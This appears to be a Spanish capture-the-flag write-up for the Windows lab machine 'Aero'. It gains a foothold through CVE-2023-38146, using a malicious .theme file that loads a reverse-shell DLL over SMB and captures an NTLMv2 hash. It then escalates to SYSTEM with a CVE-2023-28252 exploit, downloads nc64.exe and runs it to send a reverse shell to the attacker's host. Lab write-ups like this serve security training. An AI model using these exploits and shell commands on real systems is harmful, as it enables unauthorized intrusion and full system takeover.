




# Resolución maquina Aero

**Autor:** PepeMaquina.
**Fecha:** 30 de Marzo de 2026.
**Dificultad:** Medio.
**Sistema Operativo:** Windows.
**Tags:** Dll injection, CVE.

---
## Imagen de la Máquina

*Imagen: Aero.JPG*
## Reconocimiento Inicial
### Escaneo de Puertos
Se realiza la enumeración de puertos abiertos.
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 4000 -n -Pn 10.129.229.128 -oG networked
~~~
Aprovechando esto realiza un escaneo automático y detallado de puertos abiertos:
~~~bash
sudo nmap -sCV -p80 10.129.229.128 -oN targeted
~~~
### Enumeración de Servicios
~~~bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: Aero Theme Hub
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
~~~
### Enumeración de la página web
Como solamente se tiene el puerto 80 abierto, se realiza la enumeración de ella, realmente es una pagina estatica en la mayor parte, fuera de una opción especial  para lograr la subida de archivos, siendo mas especifico subir temas para windows 11.

Casi siempre que se pueda subir archivos en un sistema windows, se puede averiguar sobre un ataque NTLM theft y recibir hashes ntlmv2, pero el problema es que no sirve de mucho obtener hashes NTLMv2 ya que no existe un puerto expuesto para conexion remota.
### CVE-2023-38146
Se procedio a buscar en navegadores `theme windows 11 vulnerability` para ver si se logra obtener algun otro tipo de acceso a la maquina, logrando encontrar un CVE-2023-38146.
Este CVE trata de un RCE aprovechando configuraciones de los temas para ejecutar un dll que puede modificarse para obtener una reverse shell.
Este ataque deberia ejecutarse dentro del servidor windows, pero como no se tiene acceso, se configura un tema `.theme` para que este apunte a un servidor SMB propio y a un dll que yo mismo creare.
Se encontro un repositorio en GitHub que hace exactamente lo mencionado, crea un `.theme` malicioso que apunta a mi servidor smb y por ende a mi dll malicioso ejecutando una shell. (https://github.com/Jnnshschl/CVE-2023-38146).
Lo primero que menciona el repositorio es que se debe crear un dll con la ip y puerto para realizar el RCE, para esto cuenta con otro repositorio (https://github.com/Jnnshschl/ThemeBleedReverseShellDLL), se procede a descargarlo en una maquina windows y recompila el codigo con visual studio.

Al colocar `recompilar solucion` se puede ver que si funciono y crea un `.dll` con el nombre `ThemeBleedReverseShell.dll`.

Ahora es cosa de pasar el archivo a mi maquina linux y cambiarle el nombre a `Aero.msstyles_vrf_evil.dll` como lo pide el repositorio y el script python.
~~~bash
┌──(kali㉿kali)-[~/…/aero/exploits/CVE-2023-38146/tb]
└─$ mv ThemeBleedReverseShell.dll Aero.msstyles_vrf_evil.dll
~~~
De esa forma se tiene casi todo hecho, se procede a ejecutar el script en python apuntando a mi ip.
~~~bash
┌──(kali㉿kali)-[~/htb/aero/exploits/CVE-2023-38146]
└─$ python3 themebleed.py -r 10.10.X.X --no-dll
2026-03-31 00:26:49,673 INFO> ThemeBleed CVE-2023-38146 PoC [https://github.com/Jnnshschl]
2026-03-31 00:26:49,673 INFO> Credits to -> https://github.com/gabe-k/themebleed, impacket and cabarchive

2026-03-31 00:26:49,674 INFO> Theme generated: "evil_theme.theme"
2026-03-31 00:26:49,674 INFO> Themepack generated: "evil_theme.themepack"

2026-03-31 00:26:49,674 INFO> Remember to start netcat: rlwrap -cAr nc -lvnp 4711
2026-03-31 00:26:49,674 INFO> Starting SMB server: 10.10.14.28:445

2026-03-31 00:26:49,675 INFO> Config file parsed
2026-03-31 00:26:49,677 DEBUG> Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
2026-03-31 00:26:49,678 DEBUG> Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
2026-03-31 00:26:49,678 INFO> Config file parsed
2026-03-31 00:26:49,678 INFO> Config file parsed
~~~
Como se puede ver esto crea dos archivos maliciosos: `evil_theme.theme` y `evil_theme.themepack`. Cualquiera serviria, ademas este script tambien deja abierto el puerto 445 para entablar la conexión SMB y alcanzar el DLL.
Finalmente la estructura quedaria asi.
~~~bash
┌──(kali㉿kali)-[~/htb/aero/exploits/CVE-2023-38146]
└─$ tree .
.
├── evil_theme.theme
├── evil_theme.themepack
├── README.md
├── requirements.txt
├── rev_shell_template.cpp
├── tb
│   ├── Aero.msstyles
│   ├── Aero.msstyles_vrf.dll
│   ├── Aero.msstyles_vrf_evil.dll
│   └── hi.zip
├── themebleed.py
└── theme_template.theme
~~~
Se puede leer el `.theme` malicioso y efectivamente apunta mi ip con smb activo.
~~~bash
┌──(kali㉿kali)-[~/htb/aero/exploits/CVE-2023-38146]
└─$ cat evil_theme.theme                
; windows 11 theme exploit
; copyright 2023 fukin software foundation
[Theme]
DisplayName=@%SystemRoot%\System32\themeui.dll,-2060

[Control Panel\Desktop]
Wallpaper=%SystemRoot%\web\wallpaper\Windows\img0.jpg
TileWallpaper=0
WallpaperStyle=10

[VisualStyles]
Path=\\10.10.14.28\tb\Aero.msstyles
ColorStyle=NormalColor
Size=NormalSize

[MasterThemeSelector]
MTSM=RJSPBS 
~~~
Se procede a subir el tema a la pagina web.

Al subirlo y enviarlo aparece un mensaje de confirmacion e indica que sera revisado para añadirlo al sitio, por lo que si existe una interaccion.
Se deja abierto un puerto `4711` a la escucha para recibir la conexión.
A su vez tambien se puede ver que el script de python empieza a recibir un hash NTLMv2 para `sam.emerson` y tambien empieza a ejecutar el ataque, conectándose a mi servidor smb y ejecutando el `.dll`. 
~~~bash
2026-03-31 00:26:55,132 INFO> Incoming connection (10.129.229.128,50019)
2026-03-31 00:26:55,418 INFO> AUTHENTICATE_MESSAGE (AERO\sam.emerson,AERO)
2026-03-31 00:26:55,418 INFO> User AERO\sam.emerson authenticated successfully
2026-03-31 00:26:55,418 INFO> sam.emerson::AERO:aaaaaaaaaaaaaaaa:abe47e7a847d066d0beaf76eb84f5e00:010100000000000080d1f39ac6c0dc014402bd690376d9b3000000000100100044007600760048004800590043005200030010004400760076004800480059004300520002001000750043005400670067006c005600530004001000750043005400670067006c00560053000700080080d1f39ac6c0dc01060004000200000008003000300000000000000000000000002000007ef72a87cc8b0156939d7b331425d22ebcfe53b9f1ebd7e2fb565a139599b97e0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320038000000000000000000
2026-03-31 00:26:55,559 INFO> Connecting Share(1:IPC$)
2026-03-31 00:26:55,842 INFO> Connecting Share(2:tb)
2026-03-31 00:26:55,982 WARNING> Stage 1/3: "Aero.msstyles" [shareAccess: 1]
2026-03-31 00:26:57,269 WARNING> Stage 1/3: "Aero.msstyles" [shareAccess: 1]
2026-03-31 00:26:58,530 WARNING> Stage 1/3: "Aero.msstyles" [shareAccess: 7]
2026-03-31 00:26:59,090 WARNING> Stage 1/3: "Aero.msstyles" [shareAccess: 5]
2026-03-31 00:27:01,242 WARNING> Stage 2/3: "Aero.msstyles_vrf.dll" [shareAccess: 7]
2026-03-31 00:27:01,807 WARNING> Stage 2/3: "Aero.msstyles_vrf.dll" [shareAccess: 1]
2026-03-31 00:27:06,349 INFO> Disconnecting Share(1:IPC$)
2026-03-31 00:27:08,603 WARNING> Stage 2/3: "Aero.msstyles_vrf.dll" [shareAccess: 7]
2026-03-31 00:27:09,163 WARNING> Stage 3/3: "Aero.msstyles_vrf.dll" [shareAccess: 5]
2026-03-31 00:27:11,008 WARNING> Stage 3/3: "Aero.msstyles_vrf.dll" [shareAccess: 5]
~~~
El script termina de ejecutarse con los tres pasos que tiene y se entabla comunicación ejecutando una reverse shell en el puerto establecido.
~~~bash
┌──(kali㉿kali)-[~/htb/aero/exploits/CVE-2023-38146]
└─$ rlwrap -cAr nc -nvlp 4711
listening on [any] 4711 ...
connect to [10.10.14.28] from (UNKNOWN) [10.129.229.128] 50020
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
aero\sam.emerson
~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Con acceso al servidor ya se puede ver la bandera.
~~~powershell
PS C:\Windows\system32> cd /users
PS C:\users> cd sam.emerson

PS C:\users\sam.emerson> tree /f

Folder PATH listing
Volume serial number is C009-0DB2
C:.
+---Contacts
+---Desktop
�       user.txt
�       
+---Documents
�       CVE-2023-28252_Summary.pdf
�       watchdog.ps1
�       
+---Downloads
+---Favorites
�   �   Bing.url
�   �   
�   +---Links
+---Links
�       Desktop.lnk
�       Downloads.lnk
�       
+---Music
+---OneDrive
+---Pictures
�   +---Camera Roll
�   +---Saved Pictures
+---Saved Games
+---Searches
�       winrt--{S-1-5-21-3555993375-1320373569-1431083245-1001}-.searchconnector-ms
�       
+---Videos
PS C:\users\sam.emerson> 

PS C:\users\sam.emerson> type desktop/user.txt

<Encuentre su propia user flag>
~~~

---
## Escalada de Privilegios
### CVE-2023-28252
Se procedio a realizar enumeración manual y se puede ver claramente un archivo pdf describiendo el `CVE-2023-28252`.
Revisando este documento se puede ver que efectivamente se trata del CVE-2023-28252 y este se puede usar para escalar privilegios.
Este CVE aprovecha el controlador del Sistema de Archivos de Registro Común (CLFS) para obtener direccione en el kernel para preparar archivos blf con un codigo malicioso e inyectarlo en memoria con permisos system.
Se encotro dos formas de realizar este exploit, una forma manual (https://github.com/fortra/CVE-2023-28252) y otra mas automatizada (https://github.com/bkstephen/Compiled-PoC-Binary-For-CVE-2023-28252).
Se procedio a realizar la forma automatizada siendo mas simple, se descargo el archivo `.exe` y se lo paso al sistema windows y se lo ejecuto para ver si funcionaba.
~~~powershell
PS C:\users\sam.emerson> ./clfs_eop.exe whoami
./clfs_eop.exe whoami
[+] Incorrect number of arguments ... using default value 1208 and flag 1 for w11 and w10

ARGUMENTS
[+] TOKEN OFFSET 4b8
[+] FLAG 1

VIRTUAL ADDRESSES AND OFFSETS
[+] NtFsControlFile Address --> 00007FF9DF324240
[+] pool NpAt VirtualAddress -->FFFF9B803D6FE000
[+] MY EPROCESSS FFFF868AD51EC1C0
[+] SYSTEM EPROCESSS FFFF868ACC2D0040
[+] _ETHREAD ADDRESS FFFF868AD091D080
[+] PREVIOUS MODE ADDRESS FFFF868AD091D2B2
[+] Offset ClfsEarlierLsn --------------------------> 0000000000013220
[+] Offset ClfsMgmtDeregisterManagedClient --------------------------> 000000000002BFB0
[+] Kernel ClfsEarlierLsn --------------------------> FFFFF80067AC3220
[+] Kernel ClfsMgmtDeregisterManagedClient --------------------------> FFFFF80067ADBFB0
[+] Offset RtlClearBit --------------------------> 0000000000343010
[+] Offset PoFxProcessorNotification --------------------------> 00000000003DBD00
[+] Offset SeSetAccessStateGenericMapping --------------------------> 00000000009C87B0
[+] Kernel RtlClearBit --------------------------> FFFFF8006AB43010
[+] Kernel SeSetAccessStateGenericMapping --------------------------> FFFFF8006B1C87B0

[+] Kernel PoFxProcessorNotification --------------------------> FFFFF8006ABDBD00

PATHS
[+] Folder Public Path = C:\Users\Public
[+] Base log file name path= LOG:C:\Users\Public\42
[+] Base file path = C:\Users\Public\42.blf
[+] Container file name path = C:\Users\Public\.p_42
Last kernel CLFS address = FFFF9B802F717000
numero de tags CLFS founded 11

Last kernel CLFS address = FFFF9B8032EEA000
numero de tags CLFS founded 1

[+] Log file handle: 0000000000000104
[+] Pool CLFS kernel address: FFFF9B8032EEA000

number of pipes created =5000

number of pipes created =4000
TRIGGER START
System_token_value: FFFF9B802AE41594
SYSTEM TOKEN CAPTURED
Closing Handle
ACTUAL USER=SYSTEM
nt authority\system
WE ARE SYSTEM
~~~
Efectivamente el exploit funciona, otorgando una respuesta `nt authority\system` ante el whoami enviado, entonces se podria enviar una reverse shell asi que se pasa el archivo `nc64.exe` y se ejecuta la reverse.
~~~bash
PS C:\users\sam.emerson> curl http://10.10.14.28/nc64.exe -o nc64.exe
curl http://10.10.14.28/nc64.exe -o nc64.exe
PS C:\users\sam.emerson> ./clfs_eop.exe 'C:\users\sam.emerson\nc64.exe -e cmd.exe 10.10.14.28 4445'
./clfs_eop.exe 'C:\users\sam.emerson\nc64.exe -e cmd.exe 10.10.14.28 4445'
[+] Incorrect number of arguments ... using default value 1208 and flag 1 for w11 and w10

ARGUMENTS
[+] TOKEN OFFSET 4b8
[+] FLAG 1

VIRTUAL ADDRESSES AND OFFSETS
[+] NtFsControlFile Address --> 00007FF9DF324240
[+] pool NpAt VirtualAddress -->FFFF9B802F0FE000
[+] MY EPROCESSS FFFF868AD310C1C0
[+] SYSTEM EPROCESSS FFFF868ACC2D0040
[+] _ETHREAD ADDRESS FFFF868AD0505080
[+] PREVIOUS MODE ADDRESS FFFF868AD05052B2
[+] Offset ClfsEarlierLsn --------------------------> 0000000000013220
[+] Offset ClfsMgmtDeregisterManagedClient --------------------------> 000000000002BFB0
[+] Kernel ClfsEarlierLsn --------------------------> FFFFF80067AC3220
[+] Kernel ClfsMgmtDeregisterManagedClient --------------------------> FFFFF80067ADBFB0
[+] Offset RtlClearBit --------------------------> 0000000000343010
[+] Offset PoFxProcessorNotification --------------------------> 00000000003DBD00
[+] Offset SeSetAccessStateGenericMapping --------------------------> 00000000009C87B0
[+] Kernel RtlClearBit --------------------------> FFFFF8006AB43010
[+] Kernel SeSetAccessStateGenericMapping --------------------------> FFFFF8006B1C87B0

[+] Kernel PoFxProcessorNotification --------------------------> FFFFF8006ABDBD00

PATHS
[+] Folder Public Path = C:\Users\Public
[+] Base log file name path= LOG:C:\Users\Public\82
[+] Base file path = C:\Users\Public\82.blf
[+] Container file name path = C:\Users\Public\.p_82
Last kernel CLFS address = FFFF9B802F717000
numero de tags CLFS founded 12

Last kernel CLFS address = FFFF9B8035569000
numero de tags CLFS founded 1

[+] Log file handle: 00000000000000EC
[+] Pool CLFS kernel address: FFFF9B8035569000

number of pipes created =5000

number of pipes created =4000
TRIGGER START
System_token_value: FFFF9B802AE41594
SYSTEM TOKEN CAPTURED
Closing Handle
ACTUAL USER=SYSTEM
~~~
Desde otra terminal se entabla un escucha y se tiene conexion como System.
~~~bash
┌──(kali㉿kali)-[~/htb/aero/exploits/CVE-2023-38146]
└─$ penelope -p 4445 
[+] Listening for reverse shells on 0.0.0.0:4445 →  127.0.0.1 • 192.168.5.128 • 172.18.0.1 • 172.17.0.1 • 10.10.X.X
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from AERO~10.129.229.128-Microsoft_Windows_11_Pro_N-x64-based_PC 😍 Assigned SessionID <1>
[+] Added readline support...
[+] Interacting with session [1], Shell Type: Readline, Menu key: Ctrl-D 
[+] Logging to /home/kali/.penelope/sessions/AERO~10.129.229.128-Microsoft_Windows_11_Pro_N-x64-based_PC/2026_03_31-01_03_50-706.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
C:\users\sam.emerson>whoami
whoami
nt authority\system
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Asi que ahora con acceso de administrator se puede ver las flags.
~~~bash
C:\users\sam.emerson>cd ..
cd ..

C:\Users> administrator
cd administrator

C:\Users\Administrator>type desktop\root.txt

<Encuentre su propia root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

